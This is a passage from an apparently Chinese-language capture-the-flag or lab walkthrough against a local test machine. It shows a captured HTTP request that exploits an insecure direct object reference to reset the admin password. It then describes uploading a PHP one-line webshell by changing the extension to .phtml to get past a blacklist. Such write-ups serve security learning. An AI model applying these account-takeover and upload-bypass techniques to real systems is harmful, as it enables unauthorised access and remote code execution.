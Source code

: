 4. 测试是否存在注入
    - `Details Update` 部分
        
        使用`sql`测试没找到注入点
        
    - `Password Change` 部分
        
        这部分没注入….但是修改密码区域可以抓包将传入的`id`值修改，我们可以将其修改为`id=1`的用户（可能是管理用户）
        
        ```python
        POST /dashboard.php?id=2 HTTP/1.1
        Host: 192.168.75.184
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate, br
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 20
        Origin: http://192.168.75.184
        Sec-GPC: 1
        Connection: keep-alive
        Referer: http://192.168.75.184/dashboard.php?id=2
        Cookie: PHPSESSID=aal4svnq3poomufcq5sv2lo2fu
        Upgrade-Insecure-Requests: 1
        Priority: u=0, i
        
        password=123456&id=1
        ```
        
        成功将包发送，提示`Password has been change`
        
5. 登陆后台，用户名使用`admin` ，密码是用修改后的`123456` ，成功进入
    
    ![image.png](image%2071.png)
    
    多了个上传文件框
    
6. 尝试文件上传上传🐎
    - 直接上传`2.php` ，内容是一句马，提示：`Sorry , Allow Ex : jpg,png,gif` 看着像是白名单
    - 尝试了一下，不只是可以上传`jpg,png,gif` ，也可以上传别的后缀文件，所以更像是把`php`类的文件后缀放进黑名单了
    - 这里涉及到一些文件上传`CTF`的套路，我们将`php`改为其他可以解释为`php`文件的后缀，我将其修改为`phtml` ，上传成功（我是抓包后修改的，也可以直接修改文件后缀然后直接上传）
        
